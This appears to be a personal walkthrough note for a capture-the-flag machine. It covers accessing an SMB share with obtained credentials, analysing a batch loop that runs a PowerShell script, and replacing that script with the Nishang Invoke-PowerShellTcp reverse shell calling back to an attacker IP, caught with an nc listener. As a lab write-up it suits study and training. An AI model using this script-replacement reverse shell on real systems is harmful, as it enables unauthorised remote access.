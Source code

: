 - Connect with `smbclient` with the credentials you got.

```
smbclient //<MACHINE IP>/Enterprise-Share -U 'enterprise-security'
smb: \> dir
```

![[Screenshot_2025-10-04_13-45-23.png]]
## Windows batch loop that repeatedly runs a PowerShell script

- Note: the shell starts at `C:\Users\enterprise-security\Downloads` where there is `startup.bat`.
- If you look at the `startup.bat` content you'll see:

![[Screenshot_2025-10-06_04-57-27.png]]

- `:home` → label for the loop start.
- `TIMEOUT /T 30 /NOBREAK` → pause up to 30 seconds; user keypress won’t skip it.
- `powershell.exe -File ...` → runs the PowerShell script (synchronously).
- `TIMEOUT /T 30` → pause 30 seconds (this one _can_ be interrupted by a keypress).
- `cls` → clear the console.
- `Goto :home` → jump back to `:home` — infinite loop.

So it does: wait 30s → run PS script → wait 30s → clear screen → repeat forever. Net interval ≈ time-of-run + ~60s.

---

### Issues / cautions

- **Infinite loop** — runs forever until manually stopped or the machine reboots. That may be fine for some monitoring tasks but often undesirable.
- **No error handling** — you don’t capture whether the PowerShell script succeeded or failed.
- **No logging** — no record of runs, errors, or timestamps.

- **Running from share / path** — ensure `C:\Enterprise-Share\…` is accessible and trusted. If it’s a network share, consider network credentials and startup timing.
- Using `powershell.exe` vs `pwsh` — on PowerShell Core/7 use `pwsh` if needed.
- **Keyboard-break behavior inconsistent** — first `TIMEOUT` uses `/NOBREAK`, second doesn’t.
- **Not robust at startup** — if you want this to run as a recurring task, Windows Task Scheduler is usually a better option than a background console loop.

## PurgeIrrelevantData_1826.ps1

This is the file to be executed on the infinite loop.

- Display the `PurgeIrrelevantData_1826.ps1` content .

```
smb: \> more PurgeIrrelevantData_1826.ps1
```

![[Screenshot_2025-10-04_13-50-51 1.png]]

Effect: it will **silently delete everything inside** `C:\Users\Public\Documents\` but **not the folder itself**.

## Reverse Shell

#Attacking_Machine 
- You need a reverse shell like `Invoke-PowerShellTcp.ps1` to get a shell on your attacking machine. You can download it from [here](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1).
- After download it, rename it as `PurgeIrrelevantData_1826.ps1`.
- Add the following line at the bottom of the file.

```
Invoke-PowerShellTcp -Reverse -IPAddress <ATTACKING MACHIINE IP> -Port 443
```

#SMB_shell
- Put it to the victim machine.

```
smb: \> put PurgeIrrelevantData_1826.ps1 
```

#Attacking_Machine 
- Open a netcat listener on port 443.

```
nc -lnvp 443
```

As the `PurgeIrrelevantData_1826.ps1` supposedly is running as a cron task, you'll have to wait for the target system to execute the script.

![[Screenshot_2025-10-04_14-36-22.png]]

You got  shell.

**Next step:** [[User's flag]]




